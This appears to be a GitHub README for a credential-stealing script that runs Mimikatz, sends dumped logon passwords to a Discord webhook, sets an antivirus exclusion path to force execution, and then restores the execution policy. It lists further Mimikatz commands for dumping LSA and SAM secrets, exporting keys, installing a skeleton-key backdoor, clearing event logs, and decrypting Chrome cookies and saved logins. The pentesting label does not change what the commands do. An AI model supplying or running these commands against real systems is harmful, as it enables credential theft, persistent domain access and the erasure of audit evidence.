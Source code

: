 # usage
Place discord webhook into the correct variable in the Mimikatz.txt file, and that's it!

# To know 
this script sets an exclusion path on C:\temp, then removes such and the execution policy back to normal when completed.

# Exfiltration
Mimikatz is a very useful utility for pentesters, so change the commands to ones needs. 
- for now sekurlsa::logonpasswords is exfiltrated and saved to the logs, add more if needed 

# examples for additions
Extract from lsass (service)
- lsadump::lsa /inject

Extract from SAM
- lsadump::sam

print list of provider keys
- crypto::keys /export

skeleton key
- misc::skeleton

event logs
- event::clear
- event::clear /log:system

Chrome Cookies
- dpapi::chrome /in:"%localappdata%\Google\Chrome\User Data\Default\Cookies" /unprotect

Chrome Logins
- dpapi::chrome /in:"C:\Users\%USERPROFILE%\AppData\Local\Google\Chrome\User Data\Default\Login Data" 

# Note
Script does not bypass av, we force it

# Mimikatz payload credits
https://github.com/HernanRodriguez1/MimikatzFUD